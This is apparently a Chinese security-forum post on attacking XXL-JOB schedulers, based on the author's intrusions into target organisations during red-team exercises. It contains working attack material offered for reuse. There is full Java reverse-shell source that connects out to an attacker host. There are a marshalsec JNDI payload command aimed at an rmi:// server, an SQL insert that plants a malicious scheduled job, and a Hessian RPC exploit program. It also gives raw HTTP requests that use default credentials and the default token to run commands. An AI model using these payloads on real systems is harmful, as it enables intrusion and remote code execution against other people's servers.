# XXL-JOB 在真实攻防下的总结 - 先知社区

XXL-JOB 在真实攻防下的总结

- - -

最近在 HW 中经常会遇到 XXL-JOB 这个组件，也通过这个组件进入了不少目标单位，那就对该组件的利用进行一次总结。

# 一、最基本的操作 - 计划任务命令执行

这个操作我相信大家已经熟的不能再熟了，因为 xxl-job 的初始化 sql 语句中设定了默认密码，而且在登入之后不会提示修改默认密码，就造成了 xxl-job 的默认账号密码为 admin/123456。  
由于 xxl-job 本身是任务调度的系统，其可以自然执行命令。通常会反弹 shell，再进行后渗透，只需要在新建命令时选择对应的脚本语言，在 GLUE IDE 中编辑命令，选择执行一次即可。  
[](https://cdn.nlark.com/yuque/0/2023/png/29650981/1701503125763-d7a305a5-9955-4d51-add9-9f530a17fcc6.png#averageHue=%23979686&clientId=uf4676542-42d7-4&from=paste&height=877&id=u787bf9bd&originHeight=1753&originWidth=3125&originalType=binary&ratio=2&rotation=0&showTitle=false&size=309439&status=done&style=none&taskId=ubca5cb0a-5bdf-4f3e-a02b-f318bd8bd59&title=&width=1562.5)  
[](https://cdn.nlark.com/yuque/0/2023/png/29650981/1701503297082-e6cad41f-e8e7-4bfb-adbc-d2956238871f.png#averageHue=%231ea165&clientId=uf4676542-42d7-4&from=paste&height=714&id=u9590aa45&originHeight=1427&originWidth=3505&originalType=binary&ratio=2&rotation=0&showTitle=false&size=166579&status=done&style=none&taskId=u8200ed25-1418-42e4-9f01-dc96f9df991&title=&width=1752.5)  
[](https://cdn.nlark.com/yuque/0/2023/png/29650981/1701503349323-1310aa76-9226-4e91-bdbc-47dba50b50b8.png#averageHue=%2322a167&clientId=uf4676542-42d7-4&from=paste&height=826&id=u72a57ced&originHeight=1651&originWidth=3821&originalType=binary&ratio=2&rotation=0&showTitle=false&size=251450&status=done&style=none&taskId=u7b264714-f163-427d-9217-ceeaffb4da8&title=&width=1910.5)  
这种方式有几个容易踩坑的点：

## 1、选择执行命令的种类与系统不匹配

[](https://cdn.nlark.com/yuque/0/2023/png/29650981/1701503686274-44d23047-ff82-4d76-963f-407d2ecb9561.png#averageHue=%23f9f1f0&clientId=uf4676542-42d7-4&from=paste&height=226&id=u37048ded&originHeight=451&originWidth=807&originalType=binary&ratio=2&rotation=0&showTitle=false&size=31837&status=done&style=none&taskId=uec0996fe-63b1-4cfd-80ba-eb7de9339f1&title=&width=403.5)  
因为 xxl-job 的 exector 在生产环境中常常跑在 docker 环境下的 linux 下，就会造成一个惯性思维：当我们拿到一个 xxl-job 的往往会先使用 shell 去执行命令。  
[](https://cdn.nlark.com/yuque/0/2023/png/29650981/1701503852452-f61938ae-8bdf-4843-8c6a-96b539395fa7.png#averageHue=%23f1f1f0&clientId=uf4676542-42d7-4&from=paste&height=469&id=FpVC4&originHeight=937&originWidth=3627&originalType=binary&ratio=2&rotation=0&showTitle=false&size=204919&status=done&style=none&taskId=u3352aaaf-3f1a-4e32-a9cb-ccef9e50295&title=&width=1813.5) 当失败的时候就会以为是环境有问题，打不动。  
却不知有时 xxl-job 也可以跑在 Windows 下。这时候就可以去执行 Powerhshell 命令去上线。当然如果比较懒的话可以直接执行 java 代码来上线。无论 Windows 和 linux 都可以反弹 shell。

```plain
package com.xxl.job.service.handler;

import java.io.BufferedReader;
import java.io.BufferedWriter;
import java.io.InputStream;
import java.io.InputStreamReader;
import java.io.OutputStream;
import java.io.OutputStreamWriter;
import java.net.Socket;

public class reverse {
    class StreamConnector
    extends Thread
    {
        InputStream hx;
        OutputStream il;

        StreamConnector(InputStream hx, OutputStream il)
        {
            this.hx = hx;
            this.il = il;
        }

        public void run()
        {
            BufferedReader ar = null;
            BufferedWriter slm = null;
            try
                {
                    ar = new BufferedReader(new InputStreamReader(this.hx));
                    slm = new BufferedWriter(new OutputStreamWriter(this.il));
                    char[] buffer = new char[8192];
                    int length;
                    while ((length = ar.read(buffer, 0, buffer.length)) > 0)
                    {
                        slm.write(buffer, 0, length);
                        slm.flush();
                    }
                }
            catch (Exception localException) {}
            try
                {
                    if (ar != null) {
                        ar.close();
                    }
                    if (slm != null) {
                        slm.close();
                    }
                }
            catch (Exception localException1) {}
        }
    }
    public reverse()
    {
        reverseConn("ip:port");
    }

    public static void main(String[] args) 
    {
        System.out.println("0");
    }

    public void reverseConn(String ip)
    {
        String ipport = ip;
        try
            {
                String ShellPath;
                if (System.getProperty("os.name").toLowerCase().indexOf("windows") == -1) {
                    ShellPath = new String("/bin/sh");
                } else {
                    ShellPath = new String("cmd.exe");
                }
                Socket socket = new Socket(ipport.split(":")[0], 
                                           Integer.parseInt(ipport.split(":")[1]));
                Process process = Runtime.getRuntime().exec(ShellPath);
                new StreamConnector(process.getInputStream(), 
                                    socket.getOutputStream()).start();
                new StreamConnector(process.getErrorStream(), 
                                    socket.getOutputStream()).start();
                new StreamConnector(socket.getInputStream(), 
                                    process.getOutputStream()).start();
            }
        catch (Exception e)
            {
                e.printStackTrace();
            }
    }
}
```

## 2、反弹 shell

在实战中会碰到 executor 不出网的情况。即执行了反弹 shell 的命令之后在 vps 上未收到回显，这时就要去思考 executor 是否出网或者是注册 executor 是否失效。  
我们可以去执行器中查看其注册方式  
[](https://cdn.nlark.com/yuque/0/2023/png/29650981/1701506339785-45cd9bbe-87d8-466f-b3d5-d8895fca2eac.png#averageHue=%2312a763&clientId=uf4676542-42d7-4&from=paste&height=580&id=u3994e289&originHeight=1159&originWidth=3833&originalType=binary&ratio=2&rotation=0&showTitle=false&size=143059&status=done&style=none&taskId=u8853cb0f-30d9-4611-a094-df28ec767e5&title=&width=1916.5)  
我们去正常来说自动注册的 executor 是不会出问题的。因为从代码实现来看 xxl-job 的 executor 每隔 2min 就会向 adminer 发送心跳证明其存活。而自己注册的可能就不一定可以打通。

# 二、api 未授权访问

在 xxl-job<=2.0.2 的时候 api 存在未授权访问，有两种方式可以 getshell。

## 1、利用 jndi 注入去打内存马

这个已经被人讲过好多次了，但是利用的前提就是需要出网，使用 marshalsec 去生成 payload

```plain
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.Hessian2 SpringAbstractBeanFactoryPointcutAdvisor rmi://x.x.x.x:1099/aaa > test.ser
```

再利用 curl 去发包即可，注意尽量使用 linux 或者 Windows 的 cmd 去发包，实测 Windows 下 powershell 发包可能会出现一些问题。

```plain
curl -XPOST -H "Content-Type: x-application/hessian" --data-binary @test.ser http://127.0.0.1:8080/xxl-job-admin/api
```

## 2、去利用 XSLT 去注入内存马

这个应该是最好使的方案，Nookipop 已经讲过了，在不出网时可以利用 XSLT 去打入内存马，进行命令执行，打入 suo5 内存马进行正向代理内网穿透。  
详见 [记一次曲折的 XXL-JOB API Hessian 反序列化到 Getshell](https://forum.butian.net/share/2592)

# 三、执行命令注入内存马

这种同样是不出网时才考虑的操作。注入的是 agent 内存马，这个利用的条件其实也有点苛刻，一般来说 xxl-job 的 executor 常常跑在 docker 环境下或者分布式部署。而要想注入 agent 类型的内存马就需要 admin 端和 executor 跑在一台主机下。方法就是使用 echo 方法或者 java 的写入文件的方法将 agent 内存马写到目标主机上，然后在进行加载。具体利用方法可参照。[XXL-JOB 深度利用](https://mp.weixin.qq.com/s/8KZzBEX36noXBGFlWa1UQQ)

# 四、奇技淫巧 - 从数据库 getShell

这也是实战中遇到的一个案例，目标单位存在一个 nacos 的身份伪造漏洞，获取到了数据库的配置文件，成功的连上了数据库，当然我们可以去尝试 udf 提权或者猜目录去写马，但我发现数据库中存在 xxl\_job 的数据库，这时候其实就有更多的方法去 getshell。  
[](https://cdn.nlark.com/yuque/0/2023/png/29650981/1701872105079-8fc72a7b-ad61-4bdb-a44a-1d2b5a31afca.png#averageHue=%23f8f4f3&clientId=uf7a707aa-6606-4&from=paste&height=115&id=ud4f2bce6&originHeight=229&originWidth=1239&originalType=binary&ratio=2&rotation=0&showTitle=false&size=27809&status=done&style=none&taskId=u38cee782-6cbb-4e60-84a2-8af7f4c9d12&title=&width=619.5)  
[](https://cdn.nlark.com/yuque/0/2023/png/29650981/1701872177278-ee651421-c3b9-4c8b-891d-e8f5cac461fa.png#averageHue=%23f8f7f7&clientId=uf7a707aa-6606-4&from=paste&height=245&id=ifgia&originHeight=489&originWidth=2065&originalType=binary&ratio=2&rotation=0&showTitle=false&size=66076&status=done&style=none&taskId=uae34a256-5921-462a-b15a-f6851ccff86&title=&width=1032.5)  
这时候通常有两种利用方式:1、获取到 xxl-job 的密码，登入 xxl-job 去写计划任务进行命令执行 getshell。2、直接通过往数据库里写内容进行 getshell。

## 1、登入 xxl-job 进行 getshell

这种方式通常适用于 xxl-job-admin 的服务暴露在互联网上。我们可以通过语句`select * from information_schema.PROCESSLIST;`来判断客户端连接。由于我是在本地跑的环境，这里就是 localhost，如果是通过公网 ip 去连接的数据库，我们就可以定位到其公网 ip，扫一下端口即可判断 xxl-job-admin 是否暴露在公网上了。  
[](https://cdn.nlark.com/yuque/0/2023/png/29650981/1701872640615-db6d3d3b-bbdb-4123-98e8-79b0033d1b78.png#averageHue=%23fbfafa&clientId=ua582359a-9bbc-4&from=paste&height=806&id=ub6ed2555&originHeight=1611&originWidth=2511&originalType=binary&ratio=2&rotation=0&showTitle=false&size=130874&status=done&style=none&taskId=ue10a87cd-ee3f-4406-9cf3-e1b3b775658&title=&width=1255.5)  
如果暴露在公网上，我们便可以直接利用，xxl-job 密码为 md5 加密，我们首先可以尝试 md5 解密，解不开的话新增一个用户，密码用 md5 加密即可。登入成功之后我们便可以通过计划任务进行命令执行了。  
[](https://cdn.nlark.com/yuque/0/2023/png/29650981/1701872820620-13e854f9-4547-4deb-aac9-6d5d9b266e30.png#averageHue=%23fbfafa&clientId=ua582359a-9bbc-4&from=paste&height=374&id=ufe73b8ec&originHeight=747&originWidth=2495&originalType=binary&ratio=2&rotation=0&showTitle=false&size=89482&status=done&style=none&taskId=u9145886d-c09a-4c0f-ad1c-89805ec781b&title=&width=1247.5)

## 2、通过向数据库中写入数据进行 getshell

这是我偶然发现的一个小 trick，其实原理很简单，xxl-job-admin 会定时从数据库中查询待执行的任务，在一定时间内执行。也就是说，我们只需要往数据库里插入我们构造好的恶意定时任务。他便会让 executor 去执行。当前测试版本为 2.4.1（不同版本的 xxl-job 的数据库结构不太相同，以最新版的为例，旧版的在之前遇到的环境中经测试也能打通。）  
只需要在 xxl\_job.xxl\_job\_info 中插入这条语句即可

```plain
INSERT INTO `xxl_job`.`xxl_job_info` 
(`id`, `job_group`, `job_desc`, `add_time`, `update_time`, `author`, `alarm_email`, `schedule_type`, `schedule_conf`, `misfire_strategy`, `executor_route_strategy`, `executor_handler`, `executor_param`, `executor_block_strategy`, `executor_timeout`, `executor_fail_retry_count`, `glue_type`, `glue_source`, `glue_remark`, `glue_updatetime`, `child_jobid`, `trigger_status`, `trigger_last_time`, `trigger_next_time`) 
VALUES (7, 1, '22222', '2023-12-27 14:57:36', '2023-12-27 14:58:23', '22222', '', 'CRON', '0/5 * * * * ?', 'DO_NOTHING', 'FIRST', '', '', 'SERIAL_EXECUTION', 0, 0, 'GLUE_POWERSHELL', 'calc\n', '12312321', '2023-12-27 14:57:48', '', 0, 1703660320000, 1703660325000);
```

其中有几个值得关注的点：  
`schedule_type`为`corn`轮询，`0/5 * * * * ?`则是计划任务执行的时间我这里设定为 5 秒 1 次。`executor_handler`则是执行命令的类型，我这里因为在 Windows 下测试，故而选择为 powershell，也可变为`GLUE_SHELL`或者`GLUE_GROOVY`等来应对不同的命令。目前我们只是插入了命令，并不能执行，要是想执行，还需要在插入数据之后把`trigger_status`的值改为 1，executor 便会自动开始执行我们输入的命令。

# 五、executor 未授权访问

xxl-job 的 executeor 存在未授权访问漏洞，指纹如下图所示  
低版本  
[](https://cdn.nlark.com/yuque/0/2024/png/29650981/1704266736286-5b119dc7-4303-42e2-ad40-2b689d2ae8e4.png#averageHue=%23f8f6f5&clientId=uda75761c-b57d-4&from=paste&height=472&id=u0a79f53d&originHeight=590&originWidth=1916&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=124429&status=done&style=none&taskId=u885078d7-c9ad-498c-abcf-45d68525b29&title=&width=1532.8)  
高版本  
[](https://cdn.nlark.com/yuque/0/2023/png/29650981/1703663011317-df84d430-e2ca-4a2b-9cae-3c3d779c4890.png#averageHue=%23fdfdfd&clientId=ub082ba60-41a2-4&from=paste&height=491&id=u48d21e64&originHeight=981&originWidth=2637&originalType=binary&ratio=2&rotation=0&showTitle=false&size=57591&status=done&style=none&taskId=ua06ca288-a9fd-4daa-804d-8f7a55b450e&title=&width=1318.5)  
其原因就是 admin 端与 executeor 端通过互相发送 tcp 包进行通信，攻击者可伪造包，使 executeor 执行命令。  
该漏洞主要分为三个阶段

## 1、XxlJob<2.1.2，需要利用 Hessian 触发。

参考这个项目即可 RCE  
[https://github.com/OneSourceCat/XxlJob-Hessian-RCE](https://github.com/OneSourceCat/XxlJob-Hessian-RCE)

```plain
package com.example;

import com.xxl.job.core.biz.model.TriggerParam;
import com.xxl.rpc.remoting.net.params.XxlRpcRequest;

import com.xxl.rpc.serialize.impl.HessianSerializer;
import org.asynchttpclient.AsyncCompletionHandler;
import org.asynchttpclient.AsyncHttpClient;
import org.asynchttpclient.DefaultAsyncHttpClient;
import org.asynchttpclient.Response;

import java.io.IOException;
import java.util.Date;

public class App {

    private static void sendData(String url, byte[] bytes) {
        AsyncHttpClient c = new DefaultAsyncHttpClient();

        try{
            c.preparePost(url)
            .setBody(bytes)
            .execute(new AsyncCompletionHandler<Response>() {
                @Override
                public Response onCompleted(Response response) throws Exception {
                    System.out.println("Server Return Data: ");
                    System.out.println(response.getResponseBody());
                    return response;
                }

                @Override
                public void onThrowable(Throwable t) {
                    System.out.println("HTTP出现异常");
                    t.printStackTrace();
                    super.onThrowable(t);
                }
            }).toCompletableFuture().join();

            c.close();
        } catch (Exception e) {
            e.printStackTrace();
        } finally {
            try {
                c.close();
            } catch (IOException e) {
                e.printStackTrace();
            }
        }


    }

    public static void main( String[] args ) throws Exception {

        String code = "package com.xxl.job.service.handler;\n" +
                "\n" +
                "import com.xxl.job.core.log.XxlJobLogger;\n" +
                "import com.xxl.job.core.biz.model.ReturnT;\n" +
                "import com.xxl.job.core.handler.IJobHandler;\n" +
                "import java.lang.Runtime;\n" +
                "\n" +
                "public class DemoGlueJobHandler extends IJobHandler {\n" +
                "\n" +
                "\t@Override\n" +
                "\tpublic ReturnT<String> execute(String param) throws Exception {\n" +
                "      \tRuntime.getRuntime().exec(\"calc\");\n" +
                "\t\treturn ReturnT.SUCCESS;\n" +
                "\t}\n" +
                "\n" +
                "}\n";

        System.out.println(code);

        TriggerParam params = new TriggerParam();
        params.setJobId(10);
        params.setExecutorBlockStrategy("SERIAL_EXECUTION");
        params.setLogId(10);
        params.setLogDateTime((new Date()).getTime());
        params.setGlueType("GLUE_GROOVY");
        params.setGlueSource(code);
        params.setGlueUpdatetime((new Date()).getTime());

        XxlRpcRequest xxlRpcRequest = new XxlRpcRequest();
        xxlRpcRequest.setRequestId("111");
        xxlRpcRequest.setClassName("com.xxl.job.core.biz.ExecutorBiz");
        xxlRpcRequest.setMethodName("run");
        xxlRpcRequest.setParameterTypes(new Class[]{TriggerParam.class});
        xxlRpcRequest.setParameters(new Object[] {params});
        xxlRpcRequest.setCreateMillisTime((new Date()).getTime());

        HessianSerializer serializer = new HessianSerializer();

        byte[] data = serializer.serialize(xxlRpcRequest);
        sendData("http://127.0.0.1:9999", data);

    }
}
```

## 2, 2.2.0<=XxlJob<=2.4.0

支持了 RESTFUL API，可以直接发送 http 包伪造  
exp

```plain
POST /run HTTP/1.1
Host: 192.168.226.1:10999
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.132 Safari/537.36
Connection: close
XXL-JOB-ACCESS-TOKEN: default_token
Content-Type: application/json
Content-Length: 365

{
  "jobId": 1,
  "executorHandler": "demoJobHandler",
  "executorParams": "demoJobHandler",
  "executorBlockStrategy": "COVER_EARLY",
  "executorTimeout": 0,
  "logId": 1,
  "logDateTime": 1586629003729,
  "glueType": "GLUE_POWERSHELL",
  "glueSource": "calc",
  "glueUpdatetime": 1586699003758,
  "broadcastIndex": 0,
  "broadcastTotal": 0
}
```

## 3、XxlJob >= 2.4.0 添加了默认 token

作者为了修复该漏洞，添加了默认的 token，但是这就如同 nacos 的 jwt 秘钥，shiro 的默认 key 一样，由于使用者的粗心大意不修改该 key，还是可以被利用  
exp

```plain
POST /run HTTP/1.1
Host: 192.168.226.1:10999
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.132 Safari/537.36
Connection: close
XXL-JOB-ACCESS-TOKEN: default_token
Content-Type: application/json
Content-Length: 365

{
  "jobId": 1,
  "executorHandler": "demoJobHandler",
  "executorParams": "demoJobHandler",
  "executorBlockStrategy": "COVER_EARLY",
  "executorTimeout": 0,
  "logId": 1,
  "logDateTime": 1586629003729,
  "glueType": "GLUE_POWERSHELL",
  "glueSource": "calc",
  "glueUpdatetime": 1586699003758,
  "broadcastIndex": 0,
  "broadcastTotal": 0
}
```

- - -
